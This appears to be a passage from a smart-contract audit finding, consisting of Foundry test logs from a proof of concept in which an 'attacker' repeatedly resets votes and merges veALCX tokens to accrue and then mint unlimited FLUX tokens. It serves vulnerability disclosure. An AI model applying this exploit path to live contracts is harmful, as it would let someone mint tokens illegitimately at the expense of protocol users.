```
  index: 7
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 778371004565170140
  Call  veALCX.merge() to merge tokenId
  index: 8
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 972963755706462675
  Call  veALCX.merge() to merge tokenId
  LockedBalance of tokenId1 lock.amount: 10000000000000000000  
  LockedBalance of tokenId1 _lock.end: 1715817600  
  LockedBalance of tokenId1 _lock.cooldown: 1715817600  
  LockedBalance of tokenId1 _lock.maxLockEnabled: false  
  unclaimedFlux of tokenId1: 1189177923641421562
  After having unclaimFlux, attacker can use to boost voting power or mint Flux token
  Flux token balance of the attacker: 0
  Call unclaimedFlux to mint Flux token for the attacker
  After claiming: Flux token balance of the attacker: 1189177923641421562

[PASS] testFluxAccrualUnlimited_Normal() (gas: 1310425)
Logs:
  Start to createLock with _maxLockEnabled is false and value is 1e18 BPT
  LockedBalance of tokenId1 lock.amount: 10000000000000000000  
  LockedBalance of tokenId1 _lock.end: 1715817600  
  LockedBalance of tokenId1 _lock.cooldown: 1715817600  
  LockedBalance of tokenId1 _lock.maxLockEnabled: false  
  Call voter.reset(tokenId1)
  unclaimedFlux1: 216214167934958887
  After having unclaimFlux, attacker can use to boost voting power or mint Flux token
  Flux token balance of the attacker: 0
  Call unclaimedFlux to mint Flux token for the attacker
  After claiming: Flux token balance of the attacker: 216214167934958887
  maxVotingPower of tokenId1 : 864856671739835550  

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 28.29ms (27.57ms CPU time)

Ran 1 test suite in 694.91ms (28.29ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```

The full log file with debug:
https://drive.google.com/file/d/1Zo_Osm4rcdqRBumhmvloZdqdzDuCU24f/view?usp=sharing 


